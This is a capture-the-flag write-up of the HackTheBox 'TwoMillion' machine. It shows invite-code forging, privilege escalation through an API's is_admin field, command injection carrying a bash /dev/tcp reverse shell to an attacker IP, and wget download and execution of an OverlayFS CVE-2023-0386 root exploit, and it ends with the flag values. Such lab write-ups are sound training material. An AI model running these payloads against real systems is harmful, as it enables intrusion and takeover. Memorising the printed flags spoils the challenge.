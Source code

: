 # HackTheBox **TwoMillion**  
**Difficulty:** Easy  
**Platform:** Linux  

## Reconnaissance:
I'll start with a simple nmap scan on the IP.

```bash
nmap -sC -sV -oN outputNMAP.txt $IP 
```

![OutputNMAP](img1.png)

Let's take a look at port 80. We find a join and login section.

![WebJoinLogin](img2.png)

Let's take a look at the join section. 

![Join](img3.png)

We can see we need an invite code. Looking at the source code of the page, in the "inviteapi.min.js" we find a function called "makeInviteCode". Using it in the console we get this:

![MakeInviteCode](img4.png)

We can see ROT13 is used to encrypt the string. Using cyberchef to decrypt it we get "In order to generate the invite code, make a POST request to /api/v1/invite/generate".

I'll refresh the page and intercept the request using Burp Suite where I'll modify it so that we get an invite code.

![Burp1](img5.png)

I'll also make it intercept the response to this request.

![Burp2](img6.png)

Succes! We have a base64 encoded invite code. We can guess it's base64 because of the "=" at the end of the string. Using cyberchef to decode it we get "ZSYWX-PXE18-A0LC1-C5IV7". Now we need to make an account with that invitecode.

![SignUp](img7.png)

And after we register and login we get access to a new page. I find "Access" page to be interesting.

![AccessPage](img8.png)

I'll use BurpSuite to see if I can learn more about the API used. I'll use Repeater for this.

Sending a "GET" request to "/api/v1" we get the following:

![Burp3](img9.png)

As we can see, there is an "update user settings" options. So I'll try to update my user settings.

![Burp4](img10.png)

We can access the page but the type of content we use is invalid. That's because the body of the request is empty. The response comes in a JSON form so I'll try to send my email in JSON form.

![Burp5](img11.png)

We need to add the "is_admin" parameter as well.

![Burp6](img12.png)

It worked! Now I'll check if "/api/v1/admin/vpn/generate" is vulnerable to command injection.

![Burp7](img13.png)

Sending the payload ";sleep 5" reveals that this page is vulnerable to command injection. So I'll use netcat un my machine to listen for a connection and send a reverse shell payload through the "generate" page.

On host:
```bash
rlwrap nc -lnvp 6666
```

Reverse Shell payload:
```bash
;bash -c 'bash -i >& /dev/tcp/10.10.14.59/6666 0>&1'
```

![Shell](img14.png)

It worked!I'll upgrade the shell and get the user flag.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
[Ctrl+z]
stty raw -echo
fg
export TERM=tmux-256color
ssty rows 67 columns 318
cd /home
ls
cd /admin
cat user.txt
```

![Sad](img15.png)

As we can see, we first need to find a privelege escalation vector. Looking at the /var/mail/admin file we find out the kernel is old. We also see somethinf about OverlayFS / FUSE so I'll search for that.

I found this : https://github.com/DataDog/security-labs-pocs/blob/main/proof-of-concept-exploits/overlayfs-cve-2023-0386/poc.c .I'll compile it on my machine and transfer the executable with a simple python server.

On host:
```bash
gcc poc.c -o poc -D_FILE_OFFSET_BITS=64 -static -lfuse -ldl
python3 -m http.server -b 10.10.14.59 80
```

On target:
```bash
cd /tmp
wget http://10.10.14.59:80/poc
chmod +x poc
./poc
whoami
```

![Yey](img16.png)

It worked! Now that we are root let's get those flags.

```bash
cat /home/admin/user.txt
cat /root/root.txt
```

## User Flag : 8381907882cd30ab35628e3f37504362

## Root Flag : 02182746f56e4f720ac05af05280700f